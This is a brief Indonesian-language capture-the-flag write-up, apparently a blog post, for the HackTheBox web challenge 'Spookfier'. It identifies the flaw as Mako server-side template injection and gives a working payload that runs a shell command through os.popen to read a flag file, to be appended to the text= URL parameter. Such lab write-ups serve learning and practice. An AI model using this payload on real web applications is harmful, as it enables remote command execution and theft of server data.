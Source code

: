 ```yaml
---
title: "HackTheBox - Spookfier"
date: 2023-12-29 18:34:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
---
```


**Spookfier** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, SSTI, dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pokoknya exploitnya SSTI Mako

```bash
${self.module.runtime.util.os.popen("cat ../flag.txt").read()}
```

> tambahkan di belakang urlnya, habis text=
{: .prompt-info}